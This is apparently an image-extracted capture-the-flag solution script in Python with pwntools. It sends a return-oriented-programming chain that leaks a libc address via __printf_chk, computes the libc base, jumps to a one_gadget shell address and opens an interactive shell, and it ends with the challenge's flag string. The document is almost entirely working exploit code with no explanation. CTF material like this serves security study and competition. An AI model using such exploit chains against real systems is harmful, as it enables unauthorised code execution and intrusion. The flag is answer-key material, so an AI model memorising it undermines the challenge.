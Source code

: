 ```py
    pay += case_f4()
for _ in range(2):
    pay += case_e(0)
g = cyclic_gen()
for _ in range(13):
    pay += case_e(bss)
    pay += case_e(0)
pay += case_e(prdi)
pay += case_e(0)
pay += case_e(1)
pay += case_e(0)
pay += case_e(prsi)
pay += case_e(0)
pay += case_e(stdout)
pay += case_e(0)
pay += case_e(__printf_chk_plt)
pay += case_e(0)
pay += case_e(prdi)
pay += case_e(0)
pay += case_e(0)
pay += case_e(0)
pay += case_e(prsi)
pay += case_e(0)
pay += case_e(bss)
pay += case_e(0)
pay += case_e(read_plt)
pay += case_e(0)
pay += case_e(0x40111b)
pay += case_e(0)
pay += case_e(bss)
pay += case_e(0)

pay = pay.ljust(0x1000, b'\x00')  
s.sendafter(b": ", pay)

s.recvuntil(b'(y/n):')
leak = u64(s.recv(8).ljust(8, b'\x00'))
LIBC_BASE = leak - 0x3ec760
log.info(f"LIBC_BASE: {hex(LIBC_BASE)}")
one = LIBC_BASE + 0x4f432 # 0x4f432 0x4f3d5
system = LIBC_BASE + l.symbols['system']

s.send(b"\x00"*0x10 + p64(one) + b"\x00"*0x100)
s.interactive()
```
apollob{b45ba87c7baf87a6f171b5d44265432537dc24deba7176db0afe5c7faf437c3b349276b195505935f2e4947ad2a36ccb8744025dc6dae5751bb8b9a251db23f2f4}